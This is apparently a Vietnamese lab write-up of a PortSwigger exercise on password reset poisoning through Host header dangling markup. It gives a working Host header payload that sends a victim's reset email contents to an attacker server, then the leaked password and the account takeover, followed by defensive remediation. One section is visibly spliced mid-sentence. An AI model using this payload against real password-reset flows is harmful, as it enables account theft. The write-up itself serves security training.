## Thông tin bài Lab
* **Tên bài Lab**: Password reset poisoning via dangling markup
* **Chuyên đề**: HTTP Host Header attacks / Dangling Markup Injection
* **Mức độ**: Expert
* **Mục tiêu**: Khai thác lỗ hổng phân tích cú pháp cổng mạng trong Host header kết hợp kỹ thuật Dangling Markup Injection để trích xuất mật khẩu tạm thời của tài khoản `carlos`, đăng nhập và chiếm đoạt tài khoản.

---

## 1. Kiến thức nền tảng

Lỗ hổng Password Reset Poisoning via Dangling Markup là kỹ thuật tấn công kết hợp giữa việc thao túng trường tiêu đề HTTP Host và kỹ thuật chèn mã HTML chưa hoàn chỉnh để trích xuất dữ liệu nhạy cảm ra máy chủ kiểm soát bởi kẻ tấn công.

### 1.1. Cơ chế phân tích cú pháp cổng mạng trong HTTP Host Header
* **Cấu trúc Host Header**: Tiêu chuẩn RFC 7230 và RFC 3986 định nghĩa cấu trúc của Host header có dạng `host[:port]`. Thông thường, reverse proxy hoặc Web Application Firewall sẽ đối chiếu giá trị `host` với danh sách tên miền được phép để điều phối lưu lượng và ngăn chặn tấn công giả mạo tiêu đề Host.
* **Lỗ hổng phân tích cú pháp lỏng lẻo**: Một lỗi triển khai phổ biến là hệ thống phòng thủ chỉ kiểm tra chuỗi ký tự đứng trước dấu hai chấm, đồng thời mặc định coi mọi nội dung phía sau dấu hai chấm là chỉ số cổng mạng hợp lệ mà không thực hiện kiểm tra kiểu dữ liệu số nguyên. Khi máy chủ nhận dạng lỏng lẻo này kết hợp với một backend tin cậy tuyệt đối vào toàn bộ chuỗi Host header, kẻ tấn công có thể chèn các ký tự đặc biệt của cú pháp HTML trực tiếp sau dấu hai chấm.

### 1.2. Kỹ thuật tấn công Dangling Markup
* **Bản chất kỹ thuật**: Kỹ thuật trích xuất dữ liệu không cần thực thi mã JavaScript, được sử dụng trong các môi trường có áp dụng Content Security Policy nghiêm ngặt hoặc trong ứng dụng đọc email không hỗ trợ kịch bản động.
* **Cơ chế chiếm dụng dữ liệu**: Kẻ tấn công chèn một thẻ HTML mở chưa hoàn chỉnh, thiếu thuộc tính đóng hoặc thiếu dấu đóng ngoặc kép/nháy đơn (ví dụ: `<a href='//attacker.com/?` hoặc `click here</a></p><p>... [NEW_PASSWORD]</p>
     ▼
[ Carlos Email Client ]
     │
     │  Ứng dụng phân tích cú pháp HTML:
     │  Dấu nháy đơn đóng href ban đầu. Thẻ <a href="//exploit-server/?... nuốt toàn bộ nội dung tiếp theo
     │  Gửi GET request mang theo mật khẩu Carlos về máy chủ Attacker!
     ▼
[ Exploit Server Access Log ]
     │
     │  GET /?/login'>click%20here...Your%20new%20password%20is:%20[PASSWORD]
     ▼
[ Attacker trích xuất mật khẩu và đăng nhập tài khoản Carlos! ]
```

### 2.2. Các bước trong luồng dữ liệu tấn công
1. **Bước 1 - Gửi yêu cầu đầu độc**: Kẻ tấn công gửi yêu cầu `POST /forgot-password` với tham số `username=carlos`, đồng thời đưa payload chứa thẻ HTML chưa đóng vào sau dấu hai chấm của Host header: `<target-host>:'<a href="//<attacker-host>/?`.
2. **Bước 2 - Vượt qua kiểm tra chuyển tiếp**: Reverse Proxy phân tích chuỗi trước dấu hai chấm, xác định tên miền trùng khớp với whitelist nội bộ và cho phép yêu cầu đi qua, chuyển tiếp nguyên vẹn tiêu đề Host đến Backend Server.
3. **Bước 3 - Khởi tạo email chứa mã lỗi**: Backend tiếp nhận yêu cầu, sinh mật khẩu tạm thời ngẫu nhiên cho nạn nhân Carlos và đưa giá trị Host header vào thuộc tính `href` của liên kết đăng nhập trong khuôn mẫu email.
4. **Bước 4 - Phân tích cú pháp phía người nhận**: Khi ứng dụng email của Carlos phân tích cú pháp HTML, dấu nháy đơn đầu tiên trong payload sẽ đóng thuộc tính `href` ban đầu, và thẻ `<a>` mới sẽ mở một liên kết mới tới máy chủ kẻ tấn công. Do thuộc tính `href` của thẻ mới chưa có dấu nháy kết thúc, toàn bộ nội dung phía sau bao gồm cả chuỗi mật khẩu mới sẽ bị biến thành tham số truy vấn của liên kết.
5. **Bước 5 - Chiếm đoạt thông tin đăng nhập**: Khi Carlos mở email và tương tác với liên kết, yêu cầu HTTP GET gửi đến máy chủ tấn công mang theo toàn bộ mật khẩu tạm thời. Kẻ tấn công trích xuất mật khẩu từ Access Log để đăng nhập.

### 2.3. Nguyên nhân cốt lõi và điều kiện phát sinh lỗ hổng
* **Nguyên nhân 1**: Thuật toán kiểm tra Host header phía Reverse Proxy chỉ tách chuỗi theo dấu hai chấm và kiểm tra phần hostname, không ràng buộc phần cổng mạng phải là số nguyên hợp lệ trong khoảng 1-65535.
* **Nguyên nhân 2**: Backend Server nhúng trực tiếp giá trị Host header do người dùng kiểm soát vào nội dung email mà không thực hiện mã hóa thực thể HTML hoặc kiểm tra tính hợp lệ của đường dẫn URL.
* **Nguyên nhân 3**: Thiết kế quy trình đặt lại mật khẩu đưa thông tin xác thực nhạy cảm (mật khẩu mới) vào chung một nội dung email chứa liên kết điều hướng động.

---

## 3. Khai thác lỗ hổng

Quá trình thực nghiệm tấn công được thực hiện từng bước bằng công cụ Burp Suite và Exploit Server tích hợp của bài thực hành.

### 3.1. Khảo sát hành vi chức năng quên mật khẩu
Tiến hành gửi yêu cầu quên mật khẩu cho tài khoản người dùng `wiener` thông qua chức năng Forgot password trên giao diện ứng dụng web. Yêu cầu HTTP được chuyển vào Burp Suite Repeater để phân tích cấu trúc gói tin:

```http
POST /forgot-password HTTP/2
Host: 0a5400430459246181ac7fc100d80008.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

csrf=w2ic2MhYQEcO0jRZHrqRU31c13T0zQ00&username=wiener
```



Kiểm tra hộp thư đến của người dùng `wiener` trên máy chủ email của bài lab. Email nhận được chứa thông báo cấp mật khẩu mới dạng văn bản rõ cùng nút bấm chuyển hướng đăng nhập.



Xem mã nguồn HTML gốc của email bằng chức năng View raw để phân tích vị trí phản xạ của tên miền:



Qua mã nguồn gốc, nhận thấy giá trị Host header được ứng dụng ghép trực tiếp vào thuộc tính `href` giữa cặp dấu nháy đơn. Ngay sau thẻ đóng `</a>` là đoạn văn bản chứa mật khẩu tạm thời được khởi tạo.

---

### 3.2. Thử nghiệm thay đổi Host Header và kiểm tra định tuyến
Thử nghiệm thay đổi toàn bộ giá trị Host header thành tên miền của Exploit Server:

```http
Host: exploit-0a35004f0411246181257e44012400a6.exploit-server.net
```

Kết quả máy chủ phản hồi mã trạng thái 504 Gateway Timeout sau khoảng thời gian chờ, cho thấy hệ thống reverse proxy phụ thuộc vào Host header để định tuyến lưu lượng và từ chối các tên miền không xác định.



---

### 3.3. Kiểm tra lỗ hổng phân tích cú pháp cổng mạng và vị trí phản xạ
Tiến hành kiểm tra cơ chế phân tích cổng mạng bằng cách giữ nguyên tên miền hợp lệ và nối thêm chỉ số cổng giả mạo `:333` vào cuối:

```http
Host: 0a5400430459246181ac7fc100d80008.web-security-academy.net:333
```

Yêu cầu được thực thi thành công với mã phản hồi 200 OK, chứng minh hệ thống reverse proxy chỉ kiểm tra chuỗi tên miền phía trước dấu hai chấm và cho phép yêu cầu đi qua.



Kiểm tra lại hộp thư email và xem mã nguồn HTML gốc của thư mới nhận:

```html
<p>Please <a href='https://0a5400430459246181ac7fc100d80008.web-security-academy.net:333/login'>click here</a>...
```

Chuỗi `:333` được phản xạ nguyên vẹn vào thuộc tính `href` trong email. Điều này khẳng định backend tiếp nhận toàn bộ chuỗi bao gồm cả phần cổng mạng và đưa trực tiếp vào mẫu email mà không loại bỏ hoặc mã hóa.





---

### 3.4. Xây dựng Payload Dangling Markup và tấn công tài khoản Carlos
Dựa vào cấu trúc HTML hiện tại, xây dựng chuỗi payload chèn sau dấu hai chấm của Host header:

```text
:'<a href="//exploit-0a35004f0411246181257e44012400a6.exploit-server.net/?
```

Khi backend ghép nối chuỗi này vào mẫu email, đoạn mã HTML kết quả sẽ có cấu trúc như sau:

```html
<p>Please <a href='https://0a5400430459246181ac7fc100d80008.web-security-academy.net:'<a href="//exploit-0a35004f0411246181257e44012400a6.exploit-server.net/?/login'>click here</a>....
```

* **Cơ chế kích hoạt**: Dấu nháy đơn ngay sau dấu hai chấm sẽ đóng thuộc tính `href='` ban đầu.
* **Nuốt mã HTML**: Thẻ `<a href="//exploit-server/?` mới được mở ra với dấu ngoặc kép chưa có phần đóng.
* **Hệ quả**: Trình xử lý HTML sẽ coi toàn bộ văn bản tiếp theo (bao gồm phần chứa mật khẩu tạm thời) là giá trị của thuộc tính `href` và gửi kèm vào đường dẫn truy vấn khi nạn nhân mở liên kết.

> [!NOTE]
> **Tại sao sử dụng `//exploit-server.net` thay vì `https://exploit-server.net`?**
>
> 1. **Protocol-Relative URL (RFC 3986):** Ký hiệu `//` ở đầu đường dẫn giúp URL tự động kế thừa giao thức của môi trường hiện tại (HTTP hoặc HTTPS) mà client đang sử dụng để xem email. Trình duyệt vẫn hiểu và điều hướng tuyệt đối đến tên miền máy chủ của kẻ tấn công.
> 2. **Tránh xung đột cú pháp phân tích cổng mạng:** Cấu trúc tiêu chuẩn của trường Host header là `Host: <hostname>:<port>`. Khi chèn payload sau dấu hai chấm (`:`), nếu dùng `https://` thì sẽ xuất hiện thêm một dấu `:` thứ hai trong header. Nhiều Reverse Proxy hoặc Web Server sẽ nhận diện cấu trúc cổng không hợp lệ và phản hồi lỗi `400 Bad Request`. Việc dùng `//` loại bỏ triệt để dấu `:` thứ hai này.
> 3. **Vượt qua bộ lọc WAF:** Một số hệ thống phòng thủ kiểm tra sự xuất hiện của các tiền tố giao thức tường minh như `http://` hoặc `https://` bên trong `Host` header. Cú pháp `//` giúp payload tinh gọn và vượt qua các quy tắc lọc cơ bản này.

Gửi yêu cầu đặt lại mật khẩu cho tài khoản carlos kèm theo payload đã chuẩn bị:



---

### 3.5. Thu thập mật khẩu tạm thời từ nhật ký máy chủ tấn công
Chuyển sang Exploit Server và mở mục Access log. Khi nạn nhân Carlos mở email và tương tác với liên kết, ứng dụng client gửi một yêu cầu GET đến Exploit Server mang theo toàn bộ khối văn bản đã bị nuốt:

```http
GET /?/login'>click%20here</a></p><p>Your%20new%20password%20is:%20iFUnGERZYB HTTP/1.1" 200 "User-Agent: Mozilla/5.0..."
```

Trích xuất được mật khẩu tạm thời của tài khoản carlos là: `iFUnGERZYB`.



---

### 3.6. Đăng nhập chiếm đoạt tài khoản Carlos
Truy cập trang đăng nhập `/login`, sử dụng tên tài khoản `carlos` cùng mật khẩu `iFUnGERZYB` vừa thu thập được.



Đăng nhập thành công, hệ thống hiển thị thông báo hoàn thành bài thực hành.



---

## 4. Biện pháp khắc phục

Để loại bỏ hoàn toàn lỗ hổng Password Reset Poisoning via Dangling Markup, doanh nghiệp và nhà phát triển cần áp dụng đồng thời các biện pháp phòng vệ theo chiều sâu ở cả tầng kiến trúc mạng lẫn mã nguồn ứng dụng:

### 4.1. Chuẩn hóa và kiểm soát chặt chẽ tiêu đề Host tại Reverse Proxy
* **Kiểm tra định dạng cổng mạng**: Cấu hình Reverse Proxy kiểm tra toàn bộ tiêu đề Host theo định dạng chuẩn. Nếu có dấu hai chấm phân tách cổng, phần chỉ số cổng bắt buộc phải là số nguyên hợp lệ trong khoảng 1 đến 65535, tuyệt đối không chứa ký tự đặc biệt hoặc ký tự định dạng HTML.
* **Sử dụng danh sách trắng**: Sử dụng danh sách trắng các tên miền được phép và chuyển tiếp giá trị cố định hoặc tên miền đã được chuẩn hóa đến backend, không chuyển tiếp chuỗi nguyên bản chưa qua xử lý.

### 4.2. Xử lý an toàn tại tầng ứng dụng
* **Sử dụng cấu hình tĩnh**: Tuyệt đối không sử dụng giá trị từ Host header để tạo đường dẫn tuyệt đối trong email hoặc các giao diện nhạy cảm. Cần sử dụng biến cấu hình tĩnh của hệ thống (ví dụ: `APP_URL` hoặc `SERVER_NAME` từ file môi trường).
* **Mã hóa thực thể HTML**: Mọi dữ liệu có nguồn gốc từ bên ngoài trước khi đưa vào khuôn mẫu HTML bắt buộc phải được mã hóa thực thể HTML, biến các ký tự như `<`, `>`, `'`, `"` thành các thực thể an toàn (`&lt;`, `&gt;`, `&#39;`, `&quot;`).

### 4.3. Cải tiến quy trình đặt lại mật khẩu
* **Sử dụng Token thay vì mật khẩu rõ**: Không bao giờ gửi trực tiếp mật khẩu mới dạng bản rõ qua email. Thay vào đó, sử dụng mã thông báo đặt lại mật khẩu (Reset Token) ngẫu nhiên, có thời hạn ngắn (10-15 phút) và chỉ dùng được một lần.
* **Thiết lập chính sách bảo mật nội dung**: Thiết lập Content Security Policy chặt chẽ trong các giao diện web hiển thị email hoặc cổng thông tin để hạn chế việc tải tài nguyên hoặc điều hướng đến các tên miền không được cấp phép bên ngoài.
